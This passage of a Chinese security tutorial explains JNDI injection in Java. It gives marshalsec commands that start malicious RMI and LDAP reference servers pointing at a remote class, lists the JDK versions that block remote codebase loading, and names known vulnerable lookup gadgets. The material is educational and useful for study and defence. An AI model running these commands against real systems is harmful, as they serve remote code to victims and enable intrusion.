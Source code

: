 最后的效果就是这样

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/0cdaf07e-4ee7-e925-eb37-8ecbdbc26c30.png)

在实战用我更倾向于使用marshalsec来起RMI恶意服务，RMI服务端口号默认为1099

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://ip:80/#ExportObject 1099
```
你仍然需要自己启动web服务

### JNDI Reference配合LDAP
在上文中说过，JNDI一般配合RMI、LDAP等协议进行使用，所以上文中有RMI，自然就有LDAP。使用LDAP与上文中的RMI大同小异。所以我直接使用marshalsec启动LDAP服务，LDAP服务默认端口号为1389。

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://ip:80/#ExportObject 1389
```

## JNDI注入的JDK版本限制
由于JNDI注入动态加载的原理是使用Reference引用Object Factory类，其内部在上文中也分析到了使用的是URLClassLoader，所以不受`java.rmi.server.useCodebaseOnly=false`属性的限制。

但是不可避免的受到 `com.sun.jndi.rmi.object.trustURLCodebase`、`com.sun.jndi.cosnaming.object.trustURLCodebase`的限制。

1. JDK 5U45、6U45、7u21、8u121 开始 `java.rmi.server.useCodebaseOnly` 默认配置为true
2. JDK 6u132、7u122、8u113 开始 `com.sun.jndi.rmi.object.trustURLCodebase` 默认值为false
3. JDK 11.0.1、8u191、7u201、6u211 `com.sun.jndi.ldap.object.trustURLCodebase` 默认为false

一张图来展示JNDI注入的利用方式与JDK版本的关系：

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/0c2621c8-a2c3-fb3a-b27b-b8f0448863f4.png)

> 图引用于 https://xz.aliyun.com/t/6633

小声逼逼:java每个版本的属性多多少少都有点不一样，对于搞安全的来讲实在是太累了:<

## 已知的JNDI注入
对于JNDI注入，需要注意：

1. 仅由InitialContext或其子类初始化的Context对象（InitialDirContext或InitialLdapContext）容易受到JNDI注入攻击
2. InitialContext可以通过JNDI动态协议转换覆盖
3. InitialContext.rename()和InitialContext.lookupLink()最终也调用了lookup()

还有一些包装类也调用了lookup()，比如：Spring的JndiTemplate。

1. [JtaTransactionManager](https://zerothoughts.tumblr.com/post/137831000514/spring-framework-deserialization-rce) found by zerothinking
2. [com.sun.rowset.JdbcRowSetImpl](https://codewhitesec.blogspot.com/2016/05/return-of-rhino-old-gadget-revisited.html) found by matthias_kaiser
3. [javax.management.remote.rmi.RMIConnector.connect()](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf) found by pwntester
4. [org.hibernate.jmx.StatisticsService.setSessionFactoryJNDIName()](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf) found by pwntester

